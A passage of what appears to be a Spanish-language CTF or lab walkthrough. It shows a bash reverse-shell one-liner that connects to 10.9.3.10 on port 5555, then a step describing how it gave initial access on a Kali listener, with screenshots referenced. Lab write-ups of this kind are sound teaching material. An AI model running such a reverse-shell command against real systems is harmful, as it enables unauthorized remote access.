     <img src="Imagenes/34.png" width="1000">
</p>


```
bash -c 'bash -i >& /dev/tcp/10.9.3.10/5555 0>&1'
```

3. Teniendo el puerto en escucha, ejecutamos el código en la terminal. Dándonos el acceso inicial en nuestra Kali.  
  <p align="center">
    <img src="Imagenes/35.png" width="1000">
</p>
